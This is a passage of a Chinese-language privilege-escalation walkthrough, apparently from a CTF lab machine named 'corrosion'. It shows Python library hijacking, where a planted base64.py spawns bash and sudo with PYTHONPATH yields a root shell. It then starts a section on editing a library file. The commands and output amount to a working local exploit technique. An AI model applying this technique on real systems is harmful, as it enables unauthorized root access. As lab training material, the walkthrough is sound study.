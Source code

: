 

创建 /tmp/lib 目录，创建 base64.py 文件

```
-rwxrwxr-x 1 randy randy   33 Mar  3 03:39 base64.py
```



base64.py 文件的内容为启动一个 bash

```
import os
os.system('/bin/bash')
```



劫持成功

```
randy@corrosion:/tmp/lib$ sudo PYTHONPATH=/tmp/lib/ /usr/bin/python3.8 /home/randy/randombase64.py 
root@corrosion:/tmp/lib# id
uid=0(root) gid=0(root) groups=0(root)
```





#### 库文件修改

Python 脚本使用某个库文件（如：base64.py），允许以 root 用户脚本，用户可以**修改库文件内容**。



sudo 允许以 root 用户运行脚本

```
sudo -l

Matching Defaults entries for randy on corrosion:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User randy may run the following commands on corrosion:
    (root) PASSWD: /usr/bin/python3.8 /home/randy/randombase64.py
```



Python 脚本如下：

```
import base64

message = input("Enter your string: ")
message_bytes = message.encode('ascii')
base64_bytes = base64.b64encode(message_bytes)
base64_message = base64_bytes.decode('ascii')

print(base64_message)
```
